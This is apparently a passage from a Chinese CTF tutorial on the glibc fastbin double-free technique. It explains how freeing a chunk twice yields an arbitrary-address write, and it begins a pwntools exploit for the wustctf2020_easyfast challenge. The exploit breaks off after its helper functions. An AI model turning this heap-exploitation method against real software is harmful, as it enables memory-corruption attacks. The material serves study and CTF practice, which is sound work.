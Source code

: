 ```python
```

## Double Free

顾名思义，也就是将一个已经在`fastbins`里面的`chunk`再次添加到`fastbins`里面去，添加完成后就会有两个同样的`chunk`在一个`bins`里面。

比如：

```c
void* chunk1 = malloc(0x10);
void* chunk2 = malloc(0x10);

free(chunk1);
free(chunk2);
free(chunk1);
```

这样一来，在`fastbins`的大小为`0x20`的`bin`中，就会有：

![image-20230217172959638](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/image-20230217172959638.png)

因为`chunk1`指向`chunk2`，因此最右边的`chunk1`也会指向`chunk2`。

**值得注意的是，`fastbin`会对直接与`main arena`连接的`chunk`进行检查，因此必须借助第二个`chunk`才可以让两个一样的`chunk`都在同一个`bins`里面。**

有什么用呢？

若此时我们再申请一个`chunk`，那么左边的`chunk1`将会被申请到，若我们能够修改`chunk1`，便相当于修改了还在`fastbins`里面的右边的`chunk`的`fd`指针。如此以来，若当目前在`fastbins`里面的`chunk`都被`free`了，由于最右边的那个`chunk1`的`fd`指针是我们设计的值，那么接下来再进行`malloc`操作时，便会将我们设计的值作为地址，将我们指定的地址作为一个`chunk`返回给我们。相当于是实现了一个任意地址写的功能。

**但没有那么简单，我们设计的值作为地址的地方要作为`chunk`返回，必须要满足一个条件，即这个`chunk`的`size`值必须和`bins`单链表里面的其他`chunk`相同。**这样一来就没有问题了。

#### 例题wustctf2020_easyfast

exp

```python
# uaf漏洞，借助了0x602088处的有一个50的值，因为double free任意写的chunk的size必须和分配的相等，不然报错。

from pwn import *

context(log_level='debug')

elf = ELF('./wustctf2020_easyfast')
# sh = process('./wustctf2020_easyfast')
sh = remote('node4.buuoj.cn', 27643)

def debug():
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid)
    pause()

def add(size):
    sh.recvuntil('choice>\n')
    sh.sendline('1')
    sh.recvuntil('size>\n')
    sh.sendline(str(size))

def delete(index):
    sh.sendlineafter('choice>\n', '2')
    sh.sendlineafter('index>\n', str(index))
    
def modify(index, content):
    sh.sendlineafter('choice>\n', '3')
    sh.sendlineafter('index>\n', str(index))
    sh.send(content)
```